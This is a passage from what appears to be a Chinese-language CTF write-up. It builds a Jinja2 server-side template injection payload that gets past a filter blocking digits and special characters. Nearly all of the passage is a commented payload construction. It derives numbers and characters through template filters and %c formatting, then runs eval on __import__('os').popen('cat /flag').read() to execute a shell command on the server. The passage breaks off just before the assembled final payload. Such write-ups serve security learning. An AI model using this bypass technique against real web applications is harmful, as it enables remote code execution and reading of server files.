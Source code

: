 过滤的死死地，甚至将所有的数字都过滤了。我们仍然可以使用通过滤器进行绕过，经过之前那道题的演示，我们可以很容易的构造出被过滤了的字符或字符串。

Payload 构造过程如下：

```
# 首先构造出所需的数字: 
{% set zero = (self|int) %}    # 0, 也可以使用lenght过滤器获取数字
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set three = five-one-one %}    # 3
{% set nine = (two*two*two*two-five-one-one) %}    # 9
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串: 
{% set space = self|string|min %}    # 空格
{% set point = self|float|string|min %}    # .

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc = bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set yin = bfhc%((three~nine)|int) %}    # 使用%c构造引号 '
{% set xhx = bfhc%((nine~five)|int) %}    # 使用%c构造下划线 _
{% set right = bfhc%((four~one)|int) %}    # 使用%c构造右括号 )
{% set left = bfhc%((four~zero)|int) %}    # 使用%c构造左括号 (

{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set so = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx~xhx~but~xhx~xhx %}    # __builtins__

{% set ini = dict(ini=aa,t=bb)|join %}    # init
{% set glo = dict(glo=aa,bals=bb)|join %}    # globals
{% set itm = dict(ite=aa,ms=bb)|join %}    # items

# 将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read(): 
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}

# 然后将上面构造的各种变量添加到SSTI万能payload里面就行了: 
{% for f,v in (whoami|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}    # globals
    {% if f == bul %} 
        {% for a,b in (v|attr(itm))() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}

# 最后的payload如下:
```
